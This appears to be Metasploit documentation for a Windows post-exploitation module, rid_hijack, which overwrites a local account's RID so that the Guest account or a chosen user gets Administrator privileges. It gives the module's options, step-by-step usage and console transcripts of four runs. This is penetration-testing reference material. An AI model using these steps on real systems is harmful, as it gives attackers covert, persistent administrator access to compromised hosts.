 ## Overview

This module will create an entry on the target by modifying some properties of an existing account. It will change the account attributes by setting a Relative Identifier (RID), which should be owned by one existing account on the destination machine.

Taking advantage of some Windows Local Users Management integrity issues, this module will allow to authenticate with one known account credentials (like GUEST account), and access with the privileges of another existing account (like ADMINISTRATOR account), even if the spoofed account is disabled.

By using a `meterpreter` session against a Windows host, the module will try to acquire _**SYSTEM**_ privileges if needed, and will modify some attributes to hijack the permissions of an existing local account and set them to another one.

For more information see [csl.com.co](http://csl.com.co/rid-hijacking/).

## Vulnerable Software

This module has been tested against:

- Windows XP, 2003. (32 bits)
- Windows 8.1 Pro. (64 bits)
- Windows 10. (64 bits)
- Windows Server 2012. (64 bits)

This module was not tested against, but may work on:

- Other versions of windows (x86 and x64).

## Options

- **GETSYSTEM**: Try to get _**SYSTEM**_ privileges on the victim. Default: `false`

- **GUEST_ACCOUNT**: Use the _**GUEST**_ built-in account as the destination of the privileges to be hijacked. Set this account as the _hijacker_. Default: `false`.

- **SESSION**: The session to run this module on. Default: `none`.

- **USERNAME**: Set the user account (_SAM Account Name_) of the victim host which will be the destination of the privileges to be _hijacked_. Set this account as the _hijacker_. If **GUEST_ACCOUNT** option is set to `true`, this parameter will be ignored if defined. Default: `none`.

- **PASSWORD**: Set or change the password of the account defined as the destination of the privileges to be hijacked, either _**GUEST**_ account or the user account set in **USERNAME** option. Set password to the _hijacker_ account. Default: `none`.

- **RID**: Specify the RID number in decimal of the _victim account_. This number should be the RID of an existing account on the target host, no matter if it is disabled (i.e.: The RID of the _**Administrator**_ built-in account is 500). Set the RID owned by the account that will be _hijacked_. Default: `500`
 
## Verification steps

1. Get a `meterpreter` session on some host.
2. Do: `use post/windows/manage/rid_hijack`
3. Do: `set SESSION <SESSION_ID>` replacing <SESSION_ID> with the desired session.
4. Do: `set GET_SYSTEM true`.
5. Do: `set GUEST_ACCOUNT true`.
6. Do: `run`
7. Log in on the victim host with the GUEST account credentials.

## Scenarios
### Assigning Administrator privileges to Guest built-in account.
```
msf post(rid_hijack) > set GETSYSTEM true
GETSYSTEM => true
msf post(rid_hijack) > set GUEST_ACCOUNT true
GUEST_ACCOUNT => true
msf post(rid_hijack) > set SESSION 1
SESSION => 1
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Target account: Guest Account
[*] Target account username: Invitado
[*] Target account RID: 501
[*] Account is disabled, activating...
[+] Target account enabled
[*] Overwriting RID
[+] The RID 500 is set to the account Invitado with original RID 501
[*] Post module execution completed
```
#### Results after login in as the Guest account.

![guest_account](https://user-images.githubusercontent.com/14118912/36490462-4bf84d68-16f6-11e8-811c-bf2d8c42b93d.PNG)

### Assigning Administrator privileges to local custom account.
```
msf post(rid_hijack) > set GETSYSTEM true
GETSYSTEM => true
msf post(rid_hijack) > set GUEST_ACCOUNT false
GUEST_ACCOUNT => false
msf post(rid_hijack) > set USERNAME testuser
USERNAME => testuser
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Checking users...
[+] Found testuser account!
[*] Target account username: testuser
[*] Target account RID: 1002
[+] Target account is already enabled
[*] Overwriting RID
[+] The RID 500 is set to the account testuser with original RID 1002
[*] Post module execution completed
```
#### Results after login in as the _testuser_ account.
![testuser](https://user-images.githubusercontent.com/14118912/36490561-837bd2f0-16f6-11e8-8dc6-53283bb4d9ea.PNG)

### Assigning custom privileges to Guest built-in account and setting new password to Guest.
```
msf post(rid_hijack) > set GUEST_ACCOUNT true
GUEST_ACCOUNT => true
msf post(rid_hijack) > set RID 1002
RID => 1002
msf post(rid_hijack) > set PASSWORD Password.1
PASSWORD => Password.1
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Target account: Guest Account
[*] Target account username: Invitado
[*] Target account RID: 501
[+] Target account is already enabled
[*] Overwriting RID
[+] The RID 1002 is set to the account Invitado with original RID 501
[*] Setting Invitado password to Password.1
[*] Post module execution completed
```
### Assigning custom privileges to local custom account and setting new password to custom account.
```
msf post(rid_hijack) > set GUEST_ACCOUNT false
GUEST_ACCOUNT => false
msf post(rid_hijack) > set USERNAME testuser
USERNAME => testuser
msf post(rid_hijack) > set PASSWORD Password.2
PASSWORD => Password.2
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Checking users...
[+] Found testuser account!
[*] Target account username: testuser
[*] Target account RID: 1002
[+] Target account is already enabled
[*] Overwriting RID
[+] The RID 1002 is set to the account testuser with original RID 1002
[*] Setting testuser password to Password.2
[*] Post module execution completed
```
